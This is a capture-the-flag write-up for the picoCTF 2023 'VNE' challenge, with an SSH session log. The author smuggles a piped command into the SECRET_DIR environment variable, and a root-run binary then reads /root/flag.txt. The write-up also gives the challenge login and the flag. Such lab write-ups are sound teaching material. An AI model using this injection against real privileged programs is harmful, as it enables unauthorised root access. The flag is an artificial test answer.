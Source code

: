 ### VNE

#Medium #Binary_Exploitation #picoCTF #2023 #bash #env #injection

Author: Junias Bonou

#### Description

We've got a binary that can list directories as root, try it out !!`ssh` to `saturn.picoctf.net:59756`, and run the binary named "bin" once connected. Login as `ctf-player` with the password, `fd7746b4`

```css
┌──(kali㉿kali)-[~]
└─$ ssh -p 56238 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:56238 ([13.59.203.175]:56238)' can't be established.
ED25519 key fingerprint is SHA256:HPhB80jvwzwsykN/XSDUt9zGDYpkIHHd9PMoDlkzWpw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:56238' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ ls
bin
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
ctf-player@pico-chall$ export SECRET_DIR="/root"
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
ctf-player@pico-chall$ export SECRET_DIR="cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of cat /root/flag.txt as root: 
ls: cannot access 'cat': No such file or directory
/root/flag.txt
Error: system() call returned non-zero value: 512
ctf-player@pico-chall$ export SECRET_DIR="/root |ls"
ctf-player@pico-chall$ ./bin
Listing the content of /root |ls as root: 
bin
ctf-player@pico-chall$ export SECRET_DIR="/root | cat /root/flag.txt"
ctf-player@pico-chall$ ./bin
Listing the content of /root | cat /root/flag.txt as root: 
picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}ctf-player@pico-chall$

```

flag is `picoCTF{Power_t0_man!pul4t3_3nv_fc3ff2c9}`